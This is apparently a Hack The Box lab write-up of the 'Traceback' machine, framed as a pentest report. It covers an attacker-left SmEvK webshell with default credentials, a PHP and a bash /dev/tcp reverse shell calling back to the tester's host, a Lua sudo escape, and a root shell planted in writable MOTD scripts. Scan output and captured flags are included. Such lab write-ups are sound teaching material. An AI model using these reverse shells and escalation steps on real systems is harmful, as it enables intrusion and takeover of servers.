


# Traceback

## Table of Contents
1. [Executive Summary](https://github.com/l00pb4ck/HackTheBox-WriteUps)
2. [Findings Summary](https://github.com/l00pb4ck/HackTheBox-WriteUps)
3. [Findings](https://github.com/l00pb4ck/HackTheBox-WriteUps)
   * [Critical Findings](https://github.com/l00pb4ck/HackTheBox-WriteUps)
   * [High Risk Findings](https://github.com/l00pb4ck/HackTheBox-WriteUps)
   * [Medium Risk Findings](https://github.com/l00pb4ck/HackTheBox-WriteUps)
   * [Low Risk Findings](https://github.com/l00pb4ck/HackTheBox-WriteUps)
4. [Methodology](https://github.com/l00pb4ck/HackTheBox-WriteUps)
5. [Appendix](https://github.com/l00pb4ck/HackTheBox-WriteUps)

## Executive Summary
Traceback is a compromised web server.  The server contained 4 critical and 1 high findings.  The first 3 critical findings relate to the backdoor left by the attackers which used the default credentials from the backdoor author.  In addition, the backdoor was accessable from the internet and allowed for remote command execution on the server.  The remaining critical finding was due to a non-privileged account that is allowed to modify system files.  These system files allow privilege escalation to the root (privileged) user.  The remaining high finding relates to the service account that runs the web server which is allowed to execute commands with elevated permissions.

It is recommended to remove the backdoor from the webserver and remediate the method of entry that allowed the attacker to compromise the server and place the backdoor.  The execution of commands with elevated privileges should be reserved for non-service accounts and should therefore be corrected.  Finally, all system files should only be modifiable by the root user or a delegated user that has been granted the specific rights to modify only the files needed.

## Findings Summary 
ID         | Severity | Short Description
---------- | -------- | -------
HtB-FB-001 | Critical | Backdoor Webshell Accessable from Internet
HtB-FB-002 | Critical | Passwords Default Creds
HtB-FB-003 | Critical | Remote Command Execution
HtB-FB-004 | Critical | Non-root User Can Modify System Files
HtB-FB-005 | High     | Service Account with Evalated Privs

## Findings
### Critical Findings
#### HtB-FB-001 | Critical | Webshell Accessable from Internet
*Impact* \
The SmEvK webshell is accessable from the internet allowing any user with the credentials to gain user access to the server.


*Access Method* \
http://traceback.htb/smevk.php

*Description* \
Web shells are used to gain remote access and often remote command execution of a machine.  Webshells are often used to gain the intial foothold and allow the attacker to expand system or pivot to other machines (internal or external).  SmEvK also allows the attacker to upload and download files.

*Recommendations* \
Remove the webshell and remediate the method of compromise that allowed the webshell to be placed on the system.

*References* \
https://www.us-cert.gov/ncas/alerts/TA15-314A

#### HtB-FB-002 | Critical | Default Credentials
*Impact* \
The SmEvK webshell is using the default credentials which allows anyone to gain access to the machine, read/write files as the webadmin user, and execute commands.


*Access Method* \
Either Login using admin/admin @ http://traceback.htb/smevk.php 
or use curl to validate credentials \
`curl -d 'uname=admin&pass=admin&login=Login' http://traceback.htb/smevk.php`

*Description* \
The default credentials of admin/admin were not changed when the attacker placed the webshell on the server.

*Recommendations* \
Change all default passwords in accordance with company password policies.  If able, change default usernames to limit the effectiveness of password attacks.

*References* \
https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php

#### HtB-FB-003 | Critical | Remote Command Execution
*Impact* \
Using the SmEvK webshell, the attacker can execute any system commands as the webadmin user to alter the system to include the web pages as well as perform privilege escalation.


*Access Method* \
Execute system commands via the "Execute" box on the main page or via the Console link.

*Description* \
SmEvK webshell allows the user to execute commands on the system as the web server user.  This can be used to initial recon of the box and combined with uploading file can be used to gain persistence on the machine.

*Recommendations* \
Remove the webshell and remediate the method of compromise that allowed the webshell to be placed on the system.

*References*\
https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php

#### HtB-FB-004 | Critical | Non-root User Can Modify System Files
*Impact* \
Non-root users have permission to modify the Message of the Day files.  When a user logs in, the motd process is run by root and executes any commands in the motd files.  This could allow an attacker who has gained access to the proper account to execute commands as root. \


*Access Method* \
The files /etc/update-motd.d/* are assigned the sysadmin group and the user sysadmin is a member of this group.  The permissions on the files allowed the group to write to the files.  By adding a remote shell callback, I was able to obtain a root shell on the machine.

*Description* \
The default ownership of the /etc/update-motd.d/* files is root:root and the permissions are set to 755.  On the target system, these defaults were changed to root:sysadmin and 775.  This allows the sysadmin user to modify these files with no auditing and allows malicous code to be run as root upon a user logging into the system.  This is seen below as I added a remote shell callback and was able to obtain a root shell on the machine.


*Recommendations* \
Revert file ownership and permissions back to default and implement sudo to allow authorized users to make changes to system files.

*References:* \
https://nvd.nist.gov/800-53/Rev4/control/AC-2 \
https://nvd.nist.gov/800-53/Rev4/control/AC-3

### High Risk Findings
#### HtB-FB-005  High      Service Account with Evalated Privs
*Impact* \
A successful compromise of the web server service could result in the execution of elevated system commands and privilege escalation.

*Access Method*
webadmin was allowed to run the follow command via the sudoers file \
`sudo -u sysadmin /home/sysadmin/luvit`

*Description* \
The webadmin user account that runs the publically accessable web server was given sudo rights to execute a LUA interpreter


*Recommendations* \
Remove unneeded privileges from service accounts.

*References* \
https://nvd.nist.gov/800-53/Rev4/control/AC-2 \
https://nvd.nist.gov/800-53/Rev4/control/AC-3

### Medium Risk Findings
None
### Low Risk Findings
None

## Methodology
### Scanning
Nmap was used to perform basic port and vulnerability scanning using the following commands: \
`nmap -A -p 1-65535 -oA traceback 10.10.10.181` \
`nmap -sU -oA traceback_udp 10.10.10.181`

### Enumeration
Minimal enumeration was required to gain access.  Visiting the web page on port 80 gave the clue about a webshell as the only open ports were 22 & 80.  Googling the phrase *"Some of the best web shells that you might need"* lead me to this github page, https://github.com/TheBinitGhimire/Web-Shells/.  Performing some curls on traceback determined that the SmEvK webshell was being referenced by the text on the web page
`curl http://traceback.htb/smevk.php`

### Access
Reviewing the source code for smevk.php revealed the default credentials for the webshell are admin/admin.  

### Exploitation
Exploitation was not required for this machine.

### Privelege Escalation
``` 
$ id; uname -a; pwd
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html
```
Used the console in the webshell to execute a php reverse shell when nc failed
```
$ php -r '$sock=fsockopen("10.10.14.9",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Enumerating webadmin's home dir
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```
Googling LUA privesc turned this oneliner on GTFOBins:
```
lua -e 'os.execute("/bin/sh")'
```
Assuming the luvit was equiv to lua -e
```
echo 'os.execute("/bin/sh")'>privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```
This produce a shell as sysadmin
```
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```
Grab user flag
```
$ cat /home/sysadmin/user.txt
c4b0e4a028ff296d222609513a71df25
```
Screenshot of this process \


Copied a pub ssh key to authorized keys for easier access and better shell \


# Gaining root
After performing enumeration on the box, some interesting writable files were located.
```
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

$ find /etc/ -writable -type f 2>/dev/null
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm

$ ls -l /etc/update-motd.d/*
-rwxrwxr-x 1 root sysadmin  981 May  8 18:50 /etc/update-motd.d/00-header
-rwxrwxr-x 1 root sysadmin  982 May  8 18:50 /etc/update-motd.d/10-help-text
-rwxrwxr-x 1 root sysadmin 4264 May  8 18:50 /etc/update-motd.d/50-motd-news
-rwxrwxr-x 1 root sysadmin  604 May  8 18:50 /etc/update-motd.d/80-esm
-rwxrwxr-x 1 root sysadmin  299 May  8 18:50 /etc/update-motd.d/91-release-upgrade
```
Screenshot of this \


After looking through all the message of the day files, 00-header seemed to be the one most likely to succed in producing a root shell.  

Editing /etc/update-motd/00-header to change the following line from:
```
echo "\nWelcome to Xh4H land \n"
```
to
```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/8899 0>&1'
```
As seen here:


Next, start up a netcat listener on the attack box.
```
# nc -nvlp 8899
```
Start a listener for the root prompt.
```
# nc -nvlp 8899
listening on [any] 8899 ...
```
Now log back into traceback via ssh
```
# ssh sysadmin@traceback.htb
```
Root connection coming into netcat
``` 
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.181] 58202
bash: cannot set terminal process group (100762): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# hostname
hostname
traceback
root@traceback:/# cd /root
cd /root
root@traceback:/root# ls -l
ls -l
total 4
-r-------- 1 root root 33 May  3 22:12 root.txt
```
Grab root flag
```
root@traceback:/root# cat root.txt
cat root.txt
5722344e03964bb61279f4b8de523076
root@traceback:/root# 
```
Screenshot of this (note root keys seem to change)

## Appendix
#### Nmap TCP Scan Results
```
# Nmap 7.80 scan initiated Fri May  8 12:55:29 2020 as: nmap -A -p 1-65535 -oA traceback 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/8%OT=22%CT=1%CU=38006%PV=Y%DS=2%DC=T%G=Y%TM=5EB58F38
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   23.92 ms 10.10.14.1
2   18.36 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  8 12:56:24 2020 -- 1 IP address (1 host up) scanned in 55.56 seconds
```
#### Nmap UDP Scan
```
# Nmap 7.80 scan initiated Fri May  8 13:19:13 2020 as: nmap -sU -oA traceback_udp 10.10.10.181
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.021s latency).
All 1000 scanned ports on traceback.htb (10.10.10.181) are closed

# Nmap done at Fri May  8 13:37:18 2020 -- 1 IP address (1 host up) scanned in 1084.20 seconds
```
#### dirb output
```

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: traceback_dirb.txt
START_TIME: Fri May  8 12:59:23 2020
URL_BASE: http://traceback.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://traceback.htb/ ----
+ http://traceback.htb/index.html (CODE:200|SIZE:1113)
+ http://traceback.htb/server-status (CODE:403|SIZE:301)

-----------------
END_TIME: Fri May  8 13:01:09 2020
DOWNLOADED: 4612 - FOUND: 2
```
#### Webshell - SmEvK.php (comments at top of file)
```
<?php 
/*

SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!

*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
```
#### Screenshots


